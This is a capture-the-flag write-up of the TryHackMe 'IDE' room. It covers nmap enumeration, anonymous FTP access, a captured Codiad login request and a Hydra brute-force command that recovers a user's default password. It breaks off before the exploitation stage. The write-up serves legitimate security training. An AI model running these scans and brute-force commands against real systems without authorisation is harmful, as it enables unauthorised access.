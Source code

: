# IDE  
![ide logo](/ide/imgs/ide_room_logo.png)

IDE, an easy box to polish your enumeration skills!

## Summary
  * Start Machine::
  * Find open ports using nmap
  * Access ports discovered
  * Where possible determine version of server software
  * Seek out publicly released known exploits
  * Once local access is achieved, escalate privileges to find all the flags

### 1. Nmap enumeration

I used an [**Aggressive**](https://nmap.org/book/vscan-examples.html) scan (the `-A` option), hoping to see slightly more verbose version detection. The `-T4` option can be used on the TryHackMe platform since the machines we attack are on a virtual private network using [private addressing space](https://en.wikipedia.org/wiki/Private_network#Private_IPv4_addresses). Tantamount to being on a LAN. In the field I would most likely reduce that to `-T3` or `-T2` to reduce the chance of being detected by an IDS or worse overwhelming a production server, spoiling my probe results. Before scanning I added an entry in `/etc/hosts` of my attack box to point my local resolver at the ip address I learned after the target box was started.

```console
# Nmap 7.92 scan initiated Sat Nov  6 22:10:06 2021 as: nmap -A -T4 -oA scans/nmap_init ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to <my attacker IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   106.56 ms 10.13.0.1
2   ... 3
4   241.81 ms ide.thm (10.10.64.67)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:10:48 2021 -- 1 IP address (1 host up) scanned in 42.41 seconds
```

I see some standard services:  
* FTP being served by vsFTPd 3.0.3 --> *always good to see version strings when we probe*
* SSH being served up by OpenSSH 7.6p1 --> *Not the most up to date or secure, but not grossly insecure*
* HTTP served up by Apache2 on Ubuntu --> *This turns out to be just the first httpd daemon running on this box*

The first two, FTP and SSH, are relatively stable and secure servers. Further probing by loading up the Apache homepage in a browser gives the appearance this is a distro specific  standard install. Hinted at by `http-title: Apache2 Ubuntu Default Page: It works`

![Default Page](/ide/imgs/screenshot_default_page.png)

In the rush to hack over a web port I neglected a feature of the ftp server `Anonymous FTP login allowed (FTP code 230)` that Nmap revealed. Let's fire up an ftp client and see what's publicly accessible. You never know what secrets got left out in the open.

#### Security through obscurity is **NO SECURITY** at all

A quick bout of Command Line Commando `ftp ide.thm` using credentials of username--> anonymous and leaving password blank drops us in the ftp directory. There we find a directory named `...`
```sh
cd ...
ftp> ls -lA
-rw-r--r--  1 0   0   151 Jun 18 06:11  -
```  
Now that's curious. Inside that oddly named directory is a file named `-` *("dash")*  
Let's grab it and see what's inside  
```txt
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```  
So, we'll keep this in our back pocket for now. A password got reset and instructions to use a **default password** to login somewhere. We also have two prospective users `john` and `drac` to tuck away inside a `user.txt`.

The topic of this room is "Enumeration" so let's look at the ports above the so called **privileged ports** aka higher than 1024  
```nmap
# Nmap 7.92 scan initiated Sat Nov  6 22:22:23 2021 as: nmap -sV -T4 -p 1024- -oN scans/nmap_above1024 ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.24s latency).
Not shown: 64511 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:31:06 2021 -- 1 IP address (1 host up) scanned in 523.21 seconds
```  
Loading this new url in our browser redirects us to a login page for [Codiad Web IDE](http://codiad.com). From a link to the [Github Repo](https://github.com/Codiad/Codiad) we see it is a web based IDE for code development that has made note it is no longer maintained.  Last commit was *Mar 21, 2020*.  
Capturing a login can be done with a proxy or easier still, using the dev tools in either Firefox or Chrome. In Firefox, what I prefer to use, open up the Network tab in DevTools before logging in so that the exchange is captured in the tool. Log in with credentials we can spot in the captured **POST** request that we'll save to a file for reference in the next step.  Click on the **POST** request in the Network tab, Click on Copy--->Copy Request Headers, paste that into a file. Then Copy-->Copy Post Data and paste that below the headers.  
```text
POST http://ide.thm:62337/components/user/controller.php?action=authenticate HTTP/1.1
Host: ide.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5 --compressed
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Origin: http://ide.thm:62337
Connection: keep-alive
Referer: http://ide.thm:62337/
Cookie: f9c7294bc8f6035df784b56b800b122c=m9k8u4546g47no5uerg3kvjtr3

username=testuser&password=testpass&theme=default&language=en
```  
btw that's what our request looked like on the wire, so to speak, when it got sent over to Apache2.  We know the **Response** returned **JSON** from the headers returned including `Content-Type: application/json`. We now have all we need to attempt to brute-force a password on the Codiad Server on Port 62337

### 2. Hydra Password Enumeration

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is straight forward brute-forcing tool. Tell it the user or users and the password or list of passwords. Beyond that just give it an **IP** and protocol **method** and we're off to the races. For this Codiad server I will include a port number since **http** is usually served on port **80**.  
Command looks something like this  
`hydra -L <PATH TO USERLIST> -P <PATH TO PASSWORDS LIST> protocol-method://<$IP>$URL:<POST DATA>:<FAIL TEXT>`  
Looking for a quick easy win we'll use `probable-v2-top207.txt` from [Seclist](https://github.com/danielmiessler/SecLists) add an `-s $PORT#` since Apache2 is running on a non-standard port. Cram our POST DATA and Error Message in and off we go...
```console
hydra -L user.txt -P /usr/share/seclists/Passwords/probable-v2-top207.txt -s 62337 "http-post-form://ide.thm/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-08 14:52:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1035 login tries (l:5/p:207), ~65 tries per task
[DATA] attacking http-post-form://10.10.155.168:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username
[62337][http-post-form] host: 10.10.155.168   login: john   password: xxxxxxxx
```  
A few seconds later and we have valid credentials. User *`drac`* did reset the user *`john`* to a **well-known** default password.

### 3. Exploit and get Local Shell Access  
  * Find exploit using *searchsploit* on **Kali**
  * Edit the *sploit* to use our attacking host
  * Setup 3 terminals to implement the *sploit* chosen
  * Get **shell** , Escalate privilege using found credentials
  * Escalate to **SuperUser** and enjoy the ***PWNing***

  {To be continued...}

